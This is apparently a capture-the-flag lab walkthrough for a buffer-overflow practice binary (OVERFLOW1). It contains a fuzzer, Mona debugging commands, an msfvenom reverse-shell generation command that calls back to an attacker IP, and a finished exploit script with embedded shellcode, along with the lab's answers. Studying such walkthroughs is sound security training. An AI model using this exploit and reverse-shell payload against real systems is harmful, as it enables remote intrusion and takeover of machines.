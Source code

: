 # Buffer Overflow Prep

#### RDP

```bash
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.29.171 /workarea
```

#### Mona

```
!mona config -set workingfolder C:\mona\%p
```

#### Script

{% tabs %}
{% tab title="fuzzer.py" %}
```python
import socket
import sys
import time

ip = "10.10.29.171"
port = 1337
timeout = 5

prefix = "OVERFLOW1 "
string = prefix + "A" * 100

while 1:
    # noinspection PyBroadException
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
            print(f"Fuzzing with {len(string) - len(prefix)} bytes")
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except Exception:
        print(f"Fuzzing crashed at {len(string) - len(prefix)}")
        sys.exit(0)
    string += "A" * 100
    time.sleep(1)

```
{% endtab %}

{% tab title="exploit.py" %}
```python
import socket

ip = "10.10.29.171"
port = 1337
timeout = 5

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

# noinspection PyBroadException
try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(bytes(buffer + "\r\n", "latin-1"))
        print("Done!")
except Exception:
    print("Could not connect.")
```
{% endtab %}
{% endtabs %}

#### Cheat Sheet

{% embed url="https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst" %}

## Task 2 oscp.exe - OVERFLOW1

```bash
python3 fuzzer.py
# Fuzzing Crashing at 2000
msf-pattern_create -l 2000
# Update payload
python3 exploit.py
```

```bash
# Finding Offset
!mona findmsp -distance 2000
# EIP contains normal pattern : 0x6f43396e (offset 1978)
# Update offset
```

#### What is the EIP offset for OVERFLOW1?

{% hint style="success" %}
`1978`
{% endhint %}

```bash
# Finding Bad Characters
!mona bytearray -b "\x00"
# for x in range(1, 256):
#     print("\\x" + "{:02x}".format(x), end='')
# print()
# Update payload
```

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP>
```

#### In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW1?

{% hint style="success" %}
`\x00\x07\x2e\xa0`
{% endhint %}

```bash
# Finding a Jump Point
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
# Update retn \xaf\x11\x50\x62
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.20.154 LPORT=4444 \
         EXIFUNC=thread -b "\x00\x07\x2e\xa0" -f c
# Update Payload
```

```python
import socket

ip = "10.10.29.171"
port = 1337
timeout = 5

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = ("\xbd\xf7\xf8\xb6\xe1\xdb\xdb\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x52\x83\xc6\x04\x31\x6e\x0e\x03\x99\xf6\x54\x14\x99\xef\x1b"
"\xd7\x61\xf0\x7b\x51\x84\xc1\xbb\x05\xcd\x72\x0c\x4d\x83\x7e"
"\xe7\x03\x37\xf4\x85\x8b\x38\xbd\x20\xea\x77\x3e\x18\xce\x16"
"\xbc\x63\x03\xf8\xfd\xab\x56\xf9\x3a\xd1\x9b\xab\x93\x9d\x0e"
"\x5b\x97\xe8\x92\xd0\xeb\xfd\x92\x05\xbb\xfc\xb3\x98\xb7\xa6"
"\x13\x1b\x1b\xd3\x1d\x03\x78\xde\xd4\xb8\x4a\x94\xe6\x68\x83"
"\x55\x44\x55\x2b\xa4\x94\x92\x8c\x57\xe3\xea\xee\xea\xf4\x29"
"\x8c\x30\x70\xa9\x36\xb2\x22\x15\xc6\x17\xb4\xde\xc4\xdc\xb2"
"\xb8\xc8\xe3\x17\xb3\xf5\x68\x96\x13\x7c\x2a\xbd\xb7\x24\xe8"
"\xdc\xee\x80\x5f\xe0\xf0\x6a\x3f\x44\x7b\x86\x54\xf5\x26\xcf"
"\x99\x34\xd8\x0f\xb6\x4f\xab\x3d\x19\xe4\x23\x0e\xd2\x22\xb4"
"\x71\xc9\x93\x2a\x8c\xf2\xe3\x63\x4b\xa6\xb3\x1b\x7a\xc7\x5f"
"\xdb\x83\x12\xcf\x8b\x2b\xcd\xb0\x7b\x8c\xbd\x58\x91\x03\xe1"
"\x79\x9a\xc9\x8a\x10\x61\x9a\xbe\xf5\x7d\xc0\xd7\xf7\x7d\xe5"
"\x7b\x71\x9b\x6f\x94\xd7\x34\x18\x0d\x72\xce\xb9\xd2\xa8\xab"
"\xfa\x59\x5f\x4c\xb4\xa9\x2a\x5e\x21\x5a\x61\x3c\xe4\x65\x5f"
"\x28\x6a\xf7\x04\xa8\xe5\xe4\x92\xff\xa2\xdb\xea\x95\x5e\x45"
"\x45\x8b\xa2\x13\xae\x0f\x79\xe0\x31\x8e\x0c\x5c\x16\x80\xc8"
"\x5d\x12\xf4\x84\x0b\xcc\xa2\x62\xe2\xbe\x1c\x3d\x59\x69\xc8"
"\xb8\x91\xaa\x8e\xc4\xff\x5c\x6e\x74\x56\x19\x91\xb9\x3e\xad"
"\xea\xa7\xde\x52\x21\x6c\xee\x18\x6b\xc5\x67\xc5\xfe\x57\xea"
"\xf6\xd5\x94\x13\x75\xdf\x64\xe0\x65\xaa\x61\xac\x21\x47\x18")
postfix = ""

# for i in range(1, 256):
#     if i == 7 or i == 0x2e or i == 0xa0:
#         continue
#     payload += chr(i)

buffer = prefix + overflow + retn + padding + payload + postfix

# noinspection PyBroadException
try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(bytes(buffer + "\r\n", "latin-1"))
        print("Done!")
except Exception:
    print("Could not connect.")
```

![](<../../.gitbook/assets/Screenshot from 2021-09-07 11-11-02.png>)
